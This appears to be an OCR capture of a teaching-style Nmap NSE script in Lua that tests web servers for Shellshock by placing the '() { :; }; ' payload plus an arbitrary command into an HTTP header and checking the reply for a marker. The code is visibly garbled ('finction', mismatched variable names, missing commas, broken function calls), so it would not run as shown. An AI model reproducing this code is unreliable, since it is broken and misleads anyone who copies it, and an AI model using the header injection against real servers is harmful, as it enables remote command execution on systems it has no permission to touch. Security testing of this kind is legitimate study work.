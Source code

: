 # lUA language
-- comments

# NSE script example
-- The Head
local http = require "http"
local shortport = require "shortport"
local string = require "string"
local vulns = require "vulns"


description = [[ sample description ]]
author = {"john doe <email>"}
license = "GPL"
categories = {"exploit","intrusive"}
-- The Rule
portrule = shortport.http

function my_http_req(h,p,u,h,cmd)
    marker = "1234"
    option["header"][h] = "() { :; }; " .. cmd .."; echo " .. marker
    local req = http.get(h,p,u,options)
    return req, marker
end

-- The Action
action = finction(host,port)
local u = stdnse.get_script_args(SCRIPT..)
    local req, marker = my_http_req(h,p,u,h,cmd)
    if req.status == 200 and string.match(req.body, marker) ~= nil then
        local vuln_report = vulns.Report:new(SCRIPT_NAME, h, p)
        local vuln = {
            title = ""
            description = [[ description]]
        }
        vuln.state = vulns.STATE.EXPLOIT
        return vuln report:make output(vuln)
    end
end